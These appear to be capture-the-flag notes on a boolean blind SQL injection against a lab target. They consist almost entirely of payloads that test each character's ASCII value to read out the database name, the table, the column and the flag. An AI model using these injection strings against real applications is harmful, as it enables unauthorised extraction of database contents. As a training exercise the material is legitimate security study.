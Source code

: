 # DB 데이터 추출 3

mario'+and+(ascii(substring((select+database()),1,1))=115)+and'1'='1
s

mario'+and+(ascii(substring((select+database()),2,1))=115)+and'1'='1
q

mario'+and+(ascii(substring((select+database()),3,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+database()),4,1))=105)+and'1'='1
i

mario'+and+(ascii(substring((select+database()),5,1))=95)+and'1'='1
_

mario'+and+(ascii(substring((select+database()),6,1))=51)+and'1'='1
3

mario'+and+(ascii(substring((select+database()),7,1))>0)+and'1'='1
x

db = sqli_3

select table_name from information_schema.tables where table_schema = 'DB이름' limit 0,1 

select table_name from information_schema.tables where table_schema = 'sqli_3' limit 0,1

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),1,1))=102)+and'1'='1
f

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),2,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),3,1))=97)+and'1'='1
a

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),4,1))=103)+and'1'='1
g

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),5,1))=95)+and'1'='1
_

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),6,1))=116)+and'1'='1
t

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),7,1))=97)+and'1'='1
a

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),8,1))=98)+and'1'='1
b

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),9,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+table_name+from+information_schema.tables+where+table_schema+=+'sqli_3'+limit+0,1),10,1))=101)+and'1'='1
e

table = flag_table

select column_name from information_schema.columns where table_name='member'

select column_name from information_schema.columns where table_name='flag_table'

mario'+and+(ascii(substring((select column_name from information_schema.columns where table_name='flag_table'),11,1))>0)+and'1'='1


mario'+and+(ascii(substring((select+column_name+from+information_schema.columns+where+table_name='flag_table'),1,1))=102)+and'1'='1
f

mario'+and+(ascii(substring((select+column_name+from+information_schema.columns+where+table_name='flag_table'),2,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+column_name+from+information_schema.columns+where+table_name='flag_table'),3,1))=97)+and'1'='1
a

mario'+and+(ascii(substring((select+column_name+from+information_schema.columns+where+table_name='flag_table'),4,1))=103)+and'1'='1
g

column = flag

mario'+and+(ascii(substring((select flag from flag_table),1,1))>0)+and'1'='1

mario'+and+(ascii(substring((select+flag+from+flag_table),1,1))=115)+and'1'='1
s

mario'+and+(ascii(substring((select+flag+from+flag_table),2,1))=101)+and'1'='1
e

mario'+and+(ascii(substring((select+flag+from+flag_table),3,1))=103)+and'1'='1
g

mario'+and+(ascii(substring((select+flag+from+flag_table),4,1))=102)+and'1'='1
f

mario'+and+(ascii(substring((select+flag+from+flag_table),5,1))=97)+and'1'='1
a

mario'+and+(ascii(substring((select+flag+from+flag_table),6,1))=117)+and'1'='1
u

mario'+and+(ascii(substring((select+flag+from+flag_table),7,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+flag+from+flag_table),8,1))=116)+and'1'='1
t

mario'+and+(ascii(substring((select+flag+from+flag_table),9,1))=123)+and'1'='1
{

mario'+and+(ascii(substring((select+flag+from+flag_table),10,1))=66)+and'1'='1
B

mario'+and+(ascii(substring((select+flag+from+flag_table),11,1))=108)+and'1'='1
l

mario'+and+(ascii(substring((select+flag+from+flag_table),11,1))=105)+and'1'='1
i

mario'+and+(ascii(substring((select+flag+from+flag_table),13,1))=110)+and'1'='1
n

mario'+and+(ascii(substring((select+flag+from+flag_table),14,1))=100)+and'1'='1
d

mario'+and+(ascii(substring((select+flag+from+flag_table),15,1))=95)+and'1'='1
_

mario'+and+(ascii(substring((select+flag+from+flag_table),16,1))=83)+and'1'='1
S

mario'+and+(ascii(substring((select+flag+from+flag_table),17,1))=81)+and'1'='1
Q

mario'+and+(ascii(substring((select+flag+from+flag_table),18,1))=76)+and'1'='1
L

mario'+and+(ascii(substring((select+flag+from+flag_table),19,1))=105)+and'1'='1
i

mario'+and+(ascii(substring((select+flag+from+flag_table),20,1))=95)+and'1'='1
_

mario'+and+(ascii(substring((select+flag+from+flag_table),21,1))=69)+and'1'='1
E

mario'+and+(ascii(substring((select+flag+from+flag_table),22,1))=65)+and'1'='1
A

mario'+and+(ascii(substring((select+flag+from+flag_table),23,1))=83)+and'1'='1
S

mario'+and+(ascii(substring((select+flag+from+flag_table),24,1))=89)+and'1'='1
Y

mario'+and+(ascii(substring((select+flag+from+flag_table),25,1))=125)+and'1'='1
}

segfault{Blind_SQLi_EASY}